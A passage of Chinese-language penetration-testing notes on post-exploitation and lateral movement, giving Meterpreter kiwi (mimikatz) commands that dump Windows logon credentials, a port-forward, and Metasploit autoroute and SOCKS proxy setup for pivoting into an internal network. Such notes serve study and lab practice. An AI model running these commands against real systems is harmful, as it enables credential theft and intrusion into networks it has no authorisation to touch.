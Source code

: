 ```
kiwi_cmd module::xxx
kiwi_cmd sekurlsa::wdigest
kiwi_cmd sekurlsa::logonpasswod
```

![image-20230324153358300](../../../images/image-20230324153358300-1686283281461.png)



#### 端口转发

```shell
portfwd add -l 1234 -p 4444 -r 192.168.41.129
```





## 横向移动

### Venom代理

[内网穿透工具---Venom使用教程](https://blog.csdn.net/u011215939/article/details/103403545)

![image-20230331194420393](../../../images/image-20230331194420393-1686283281461.png)

```
socks port
然后配合proxychains使用
```



### sockets代理

#### MSF配置

- 为当前sesison添加路由

```shell
run autoroute -s 192.168.52.0/24
```

![image-20230324170547279](../../../images/image-20230324170547279-1686283281461.png)

- 使用socks5模块

  ```shell
  background
  use auxiliary/server/socks_proxy
  set SRVHOST 127.0.0.1
  run
  ```

  ![image-20230324170759790](../../../images/image-20230324170759790-1686283281461.png)

  这里需要按一下回车
